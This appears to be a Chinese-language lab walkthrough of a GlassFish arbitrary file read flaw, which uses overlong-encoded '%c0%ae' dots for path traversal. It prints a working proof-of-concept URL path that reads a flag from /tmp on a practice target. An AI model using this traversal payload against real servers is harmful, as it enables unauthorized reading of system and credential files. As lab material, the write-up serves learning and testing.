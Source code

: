 # GlassFish任意文件读取漏洞

## 漏洞概述

glassfish 是一款 java 编写的跨平台的开源的应用服务器。漏洞原理与宽字节 SQL 注入一致，都是由于 unicode 编码歧义导致的。java 中会把"%c0%ae"解析为"\uC0AE"，最后转义为ASCCII字符的"."（点）, 所以 glassfish 这个 poc 实际上就是../../../../../../../../../../../xxx/xxx

## 复现

首先打开靶场，启动加载页面可能会慢，等一会就好。

![1](./1.png)

直接读 tmp 文件下的 Flag,POC 如下：

`/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/tmp`

![2](./2.png)

